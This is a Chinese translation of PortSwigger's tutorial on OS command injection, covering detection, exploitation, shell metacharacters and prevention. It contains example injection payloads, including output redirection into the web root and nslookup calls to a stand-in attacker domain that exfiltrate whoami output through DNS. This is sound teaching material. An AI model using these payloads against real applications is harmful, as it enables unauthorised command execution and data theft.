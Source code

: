 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/os-command-injection'
---
```


# OS命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%285%29%20%283%29%20%283%29%20%283%29%20%284%29.png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，让用户可以查看某件商品在特定商店中是否有库存。 这一信息是通过一个URL访问的：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储的ID作为参数调用 shell 命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定物品的库存状态，并返回给用户。

由于该应用程序没有实现对操作系统命令注入的防御，攻击者可以提交以下输入来执行一个任意命令：

```text
& echo aiwefwlguh &
```

如果这个输入是在`productID`参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

`echo`命令只是使提供的字符串在输出中回显，它是测试某些类型的 OS 命令注入的有用方法。 `&`字符是 shell 命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not provided
aiwefwlguh
29: command not found
```

输出的三行表明：

* 原始的`stockreport.pl`命令在没有预期参数的情况下执行，因此返回了一个错误消息。
* 注入的`echo`命令被执行，并且提供的字符串在输出中回显。
* 原先的参数`29`被作为命令执行，这导致了一个错误。

将额外的命令分隔符`&`放在注入的命令之后通常是很有用的，因为它将注入命令与注入点后面的内容分开。 这就减少了后面的阻止注入命令执行操作的可能性。

{% hint style="warning" %}
**实验：**[OS 命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)
{% endhint %}

## 有用的命令

当你确定了一个 OS 命令注入漏洞后，执行一些初始命令以获得被你入侵的系统的信息通常是有用的。 以下是在 Linux 和 Windows 平台上有用的一些命令摘要：

| 命令的用途 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行的进程 | `ps -ef` | `tasklist` |

## 操作系统命令盲注漏洞

OS 命令注入的许多例子都是盲注漏洞。 这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 盲注漏洞仍然可以被利用，但是需要不同的技术。

考虑一个网站允许用户提交有关该站点的反馈。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序生成一封包含反馈的电子邮件发到网站管理员。 为此，它要把提交的详细信息调用给邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail`命令的输出（如果有）不会在应用程序的响应中返回，因此使用`echo` payload 将无效。 在这种情况下，你可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测OS命令盲注

你可以使用一个注入命令来触发一个时间延迟，从而让你根据应用程序响应的时间来确认命令是否被执行。 `ping`命令是执行此操作的有效方法，因为它可以让你指定要发送的 ICMP 数据包的数量，从而指定命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序`ping`其环回网络适配器10次。

{% hint style="warning" %}
**实验：**[带时间延迟的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
{% endhint %}

### 通过重定向输出来利用OS命令盲注

你可以将注入命令的输出重定向到 web 根目录下的一个文件中，然后就可以用浏览器进行取回。 例如，如果应用程序从`/var/www/static`位置提供静态资源，那么可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

`>`字符将`whoami`命令的输出发送到指定文件中。 然后，你可以使用浏览器获取`https://vulnerable-website.com/whoami.txt`来获取文件，并查看注入命令的输出。

{% hint style="warning" %}
**实验：**[带重定向输出的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
{% endhint %}

### 使用带外（OAST）技术利用盲OS命令注入

你可以使用一个注入的命令，通过 OAST 技术触发与你控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 使用`nslookup`命令对指定域进行 DNS 查找。 攻击者可以监视到是否发生了指定的查找，从而检测命令已成功注入。

{% hint style="warning" %}
**实验：**[带外交互的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
{% endhint %}

带外通道还提供了一种简单的方法来从注入的命令中提取输出：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者的域名进行 DNS 查找，其中包含`whoami`命令的结果。

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

{% hint style="warning" %}
**实验：**带外数据渗出的 OS 命令盲注
{% endhint %}

## 注入 OS 命令的方式

可以使用各种 shell 元字符来执行 OS 命令注入攻击。

一些字符可以作为命令的分隔符，使命令可以被链接起来。 以下命令分隔符在 Windows 和基于 Unix 的系统中均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于 Unix 的系统中工作：

* `;`
* `0x0a` or `\n`

在基于 Unix 的系统中，你还可以使用反引号或 dollar 字符，在原始命令内对注入的命令内联执行：

* ````` 注入的命令 `````
* `$(` 注入的命令 `)`

请注意，不同的 shell 元字符具有细微的不同行为，这可能会影响它们在某些情况下是否起作用，以及它们是否允许带内检索命令输出或仅用于盲注利用。

有时，你控制的输入会出现在原始命令的引号内。 这种情况下，在使用合适的 shell 元字符注入新命令之前，需要终止带引号的上下文\(使用`"`或`'`\)。

## 如何防止OS命令注入攻击

到目前为止，防止 OS 命令注入漏洞最有效的方法是，永远不要从应用程序层代码中调用 OS 命令。 几乎在每种情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用 OS 命令，则必须进行强输入验证。一些有效验证的例子包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

不要试图通过转义 shell 元字符来清理输入。 实际中，这太容易出错，而且容易被熟练的攻击者绕过。

> **阅读更多**
>
> [使用 Burp Suite 的 Web 漏洞扫描器找到 OS 命令注入漏洞](https://portswigger.net/burp/vulnerability-scanner)


